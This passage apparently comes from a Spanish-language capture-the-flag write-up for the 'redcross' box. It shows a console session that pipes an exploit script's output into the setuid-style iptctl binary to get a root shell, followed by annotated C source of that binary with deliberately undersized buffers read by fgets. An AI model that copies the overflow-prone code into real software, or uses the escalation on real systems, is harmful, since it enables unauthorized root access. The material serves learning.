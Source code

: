 ```console
python /tmp/exploit.py > /tmp/text
www-data@redcross:/opt/iptctl$ (cat /tmp/text; cat) | ./iptctl -i
Entering interactive mode
whoami
root
```
----------------------------
# Extra: Script en c de iptctl

```c
// #include de  <stdio.h>, <stdlib.h>, <string.h>, <arpa/inet.h>, <unistd.h>
#define BUFFSIZE 360

int isValidIpAddress(char *ipAddress)
{ struct sockaddr_in sa; int result = inet_pton(AF_INET, ipAddress, &(sa.sin_addr)); return result != 0; }
// Si este comando sale bien esque la ip es válida

int isValidAction(char *action){
    int a=0; char value[10]; strncpy(value,action,9);
    if(strstr(value,"allow")) a=1;  // Si es restrict accion 2 y si es show la 3
	return a; }

void cmdAR(char **a, char *action, char *ip){
    a[0]="/sbin/iptables"; a[1]=action; a[2]="INPUT"; a[3]="-p"; a[4]="all"; a[5]="-s"; a[6]=ip; a[7]="-j"; a[8]="ACCEPT";
    return;}  // Ej "/sbin/iptables ALLOW -p all -s 10.10.14.12 -j ACCEPT"

void cmdShow(char **a){ a[0]="/sbin/iptables"; a[1]="-L"; a[2]="INPUT"; return;} // O sea "/sbin/iptables -L "

void interactive(char *ip, char *action, char *name){
    char inputAddress[16]; char inputAction[10]; // Buffers de varaibles accion e ip
    printf("Entering interactive mode\n"); printf("Action(allow|restrict|show): ");
    fgets(inputAction,BUFFSIZE,stdin); fflush(stdin);
    printf("IP address: "); fgets(inputAddress,BUFFSIZE,stdin); fflush(stdin); // Mete los datos que le damos en los buffers
    inputAddress[strlen(inputAddress)-1] = 0;
    if(! isValidAction(inputAction) || ! isValidIpAddress(inputAddress)){
        printf("Usage: %s allow|restrict|show IP\n", name); exit(0); }
    strcpy(ip, inputAddress); strcpy(action, inputAction); return;}

int main(int argc, char *argv[]){
    int isAction=0; int isIPAddr=0; pid_t child_pid;
    char inputAction[10]; char inputAddress[16]; char *args[10]; char buffer[200];
	//Definimos algunas variables y buffers de ciertos tamaños

	if(argc!=3 && argc!=2){
    	printf("Usage: %s allow|restrict|show IP_ADDR\n", argv[0]); exit(0);} 
		// Si no hay argumentos nos da el mensaje este y sale. 

	if(argc==2){
    	if(strstr(argv[1],"-i")) interactive(inputAddress, inputAction, argv[0]); 
		// Si hay dos argumentos y el primero es -i entramos en modo interactivo "./iptctl -i"

	else{ strcpy(inputAction, argv[1]); strcpy(inputAddress, argv[2]); }
		// Si hay mas de dos el primero es el modo y el segundo la ip ej "./iptctl allow 127.0.0.1"

	isAction=isValidAction(inputAction);
	isIPAddr=isValidIpAddress(inputAddress);
	if(!isAction || !isIPAddr){ printf("Usage: %s allow|restrict|show IP\n", argv[0]); exit(0); }

```